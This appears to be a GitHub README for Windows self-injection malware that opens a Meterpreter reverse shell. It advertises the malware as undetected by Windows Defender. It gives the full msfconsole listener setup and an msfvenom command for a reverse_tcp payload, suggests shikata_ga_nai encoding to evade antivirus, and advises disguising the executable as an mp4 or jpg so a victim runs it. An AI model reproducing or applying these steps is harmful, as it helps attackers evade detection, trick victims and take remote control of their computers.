





# Self-Injection-Reverse-Shell-Undetected
Self Injection Malware, currently UNDETECTED by windows defender, it creates a reverse shell on a target machine

# 💻 Code
This program injects base64 code into a self created process on the target machine. 

**Step by step guide**:
- First we define the base64 shellcode (make sure architecute is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;

Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

---

- **Listener**: 

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole ```

``` use exploit multi/handler  ```

``` set payload windows/meterpreter/reverse_tcp ```

``` set lhost XXX ```

``` set lport XXX ```

``` exploit ```

---

- **Payload**: 

The payload is, as i said before, a simple non-encrypted base64 shellcode, you can make it with:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX -f c ```.

You can add a simple encryption by adding this ``` -e x86/shikata_ga_nai -f c  ```. 

In the future i will attempt to create my own encryption, since the well known ones are already pretty much detectable. 

---

- **Shell**

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked.
Once the victim runs the exe, a new session will pop up on meterpreter, and u can view it and use it with: 

``` sessions ```

``` sessions -i 1```

``` shell ```

Here is an example of writing powershell code through meterpreter     --------->

In this example it was a simple message box error, which worked smoothly.

---

# 🛡 Antivirus



The payload is currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.

Something i don't understand is why Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft, which should technically be windows defender (?) recognizes the malware.... it should be the exact opposite but idk.

As i said before, you can add a simple shikata ga nai encryption or use online tools like shoggoth or idk. Soon i will create my own simple encryption using python : )

The only problem is decrypting the base64, ill have to find a way to basically use both c++ and python somehow.... 

Last thing: i run the malware using Termux, an android emulator for linux, because i didnt wanna setup networking stuff for my kali vm, i had issues trying to establish the session

